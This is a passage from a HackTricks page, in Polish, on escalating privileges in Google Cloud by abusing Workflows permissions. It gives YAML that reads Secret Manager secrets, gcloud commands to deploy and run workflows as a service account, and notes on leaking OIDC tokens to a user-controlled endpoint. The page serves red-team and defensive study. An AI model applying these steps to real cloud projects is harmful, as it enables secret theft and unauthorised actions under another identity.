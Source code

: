 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Podstawowe informacje:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Z tego co wiem, nie jest możliwe uzyskanie powłoki z dostępem do punktu końcowego metadanych zawierającego dane uwierzytelniające SA przypisanego do Workflow. Jednak możliwe jest nadużycie uprawnień SA, dodając działania do wykonania wewnątrz Workflow.

Możliwe jest znalezienie dokumentacji konektorów. Na przykład, oto [**strona konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** W pasku bocznym można znaleźć kilka innych konektorów.

A tutaj można znaleźć przykład konektora, który drukuje sekret:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualizacja z CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Jeśli otrzymasz błąd taki jak `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, po prostu **poczekaj minutę i spróbuj ponownie**.

Jeśli nie masz dostępu do sieci, możliwe jest wywołanie i zobaczenie wykonania Workflow za pomocą:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Możesz również sprawdzić wyniki wcześniejszych wykonania, aby poszukać wrażliwych informacji
{% endhint %}

Zauważ, że nawet jeśli otrzymasz błąd taki jak `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` ponieważ nie masz tej zgody, workflow został wygenerowany.

### Wyciekanie tokena OIDC (i OAuth?)

Zgodnie z [**dokumentacją**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) możliwe jest użycie kroków workflow, które wyślą żądanie HTTP z tokenem OAuth lub OIDC. Jednak, tak jak w przypadku [Cloud Scheduler](gcp-cloudscheduler-privesc.md), żądanie HTTP z tokenem Oauth musi być skierowane do hosta `.googleapis.com`.

{% hint style="danger" %}
Dlatego **możliwe jest wyciekanie tokena OIDC poprzez wskazanie punktu końcowego HTTP** kontrolowanego przez użytkownika, ale aby wyciec **token OAuth**, potrzebujesz **obejścia** tej ochrony. Jednak nadal możesz **kontaktować się z dowolnym API GCP, aby wykonywać działania w imieniu SA** używając zarówno konektorów, jak i żądań HTTP z tokenem OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Dzięki temu uprawnieniu, zamiast `workflows.workflows.create`, możliwe jest zaktualizowanie już istniejącego workflow i przeprowadzenie tych samych ataków.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
